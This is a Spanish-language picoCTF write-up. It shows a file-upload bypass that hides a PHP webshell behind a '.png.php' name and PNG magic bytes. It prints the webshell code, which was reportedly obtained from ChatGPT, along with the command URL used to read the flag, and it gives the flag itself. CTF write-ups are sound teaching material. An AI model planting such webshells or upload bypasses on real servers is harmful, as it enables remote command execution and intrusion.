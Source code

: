 
## Description

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

## Solution

Primero nos vamos al archivos robots.txt a ver que pista existe:

```
Nos aparece esto:
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Vamos al archivo instructions.txt a ver que sale:

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Le pedimos a chatgpt un webshell sencillo, y lo guardamos en un archivo php.

```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>

Este web shell permite interactuar con el sistema operativo operativo de un servidor a través del navegador web, como si estuviera usando una terminal.
```

![[Pasted image 20250415161134.png]]


http://atlas.picoctf.net:59497/uploads/webshell.png.php?cmd=cat%20../HFQWKODGMIYTO.txt

flag-> picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}